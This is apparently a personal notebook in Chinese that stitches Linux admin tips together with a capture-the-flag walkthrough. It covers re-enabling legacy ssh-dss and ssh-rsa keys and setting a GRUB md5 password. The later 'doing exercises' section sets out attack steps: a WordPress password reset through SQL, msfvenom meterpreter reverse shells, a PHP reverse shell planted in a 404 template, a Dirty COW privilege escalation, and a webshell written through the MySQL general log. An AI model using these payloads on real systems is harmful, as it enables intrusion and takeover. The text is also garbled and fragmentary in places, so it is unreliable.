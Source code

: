ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```

编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码

[root@localhost~]# grub-crypt --md5

Password:

Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0


# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666


msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exoloit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c-o dirty -lcrypt
下载到kali桌面并进入目录，使用GCC编译GCC-线程dity.c-o脏-lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPSercer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="\\var\\www\\html\\shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```






